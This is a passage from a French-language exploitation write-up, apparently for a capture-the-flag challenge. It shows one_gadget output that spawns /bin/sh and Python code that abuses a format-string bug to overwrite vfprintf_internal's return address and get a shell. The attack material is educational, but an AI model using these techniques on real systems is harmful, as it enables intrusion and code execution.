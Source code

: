 On retrouve la libc avec le build ID `6542915cee3354fbcf2b3ac5542201faec43b5c9`.

Afin d'obtenir un shell nous avons plusieurs choix, on peut passer par un one gadget ou bien par une ropchain. La ropchain va demander plus de temps d'écriture avec la format string mais permettra d'être plus stable.

### one_gadget

Avec l'outil [`one_gadget`](https://github.com/david942j/one_gadget) on peut récupérer la liste des candidats pour un one gadget :

```c
0x4d8cc posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, rip+0x14c537, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x4d8d3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, rip+0x14c537, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xd63f3 execve("/bin/sh", rbp-0x40, r12)
constraints:
  address rbp-0x38 is writable
  rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp
```

Notre objectif sera de réécrire l'adresse de retour de `vfprintf_internal` qui est une adresse de la libc, on pourra donc réécrire les 4 octets de poids faible pour avoir l'adresse de notre one gadget.

La seule limitation de cette technique est que l'on doit avoir les 32-bits de poids faible inférieur à un `INT_MAX`, puisque printf ne permet pas d'écrire plus que cela :

```py
vfprintf_internal_ret = argv - 0x240
gadget = (libc.address + 0x4d8d3) & 0xffffffff

assert gadget <= 0x7fffffff, "OVERFLOW DETECTED"

io.write_one(vfprintf_internal_ret, gadget)
```

Il y a aussi une autre possibilité pour écrire d'un coup une adresse 32-bits grâce à l'indicateur de largeur avec `*`. Il faut au préalable écrire les adresses et les valeurs qu'elles auront, ici nous allons les stockés en commençant à l'index 13 situé à `argv - 0x118` :

```py
vfprintf_internal_ret = argv - 0x240

gadget = (libc.address + 0x4d8d3) & 0xffffffff

addr_area = argv - 0x118

# index 13
io.write(addr_area, vfprintf_internal_ret)
# index 14
io.write(addr_area + 0x8, vfprintf_internal_ret + 2)
# index 15
io.write(addr_area + 0x10, (gadget & 0xffff))
# index 16
io.write(addr_area + 0x18, (0x10000 - (gadget & 0xffff)) + (gadget >> 0x10))
```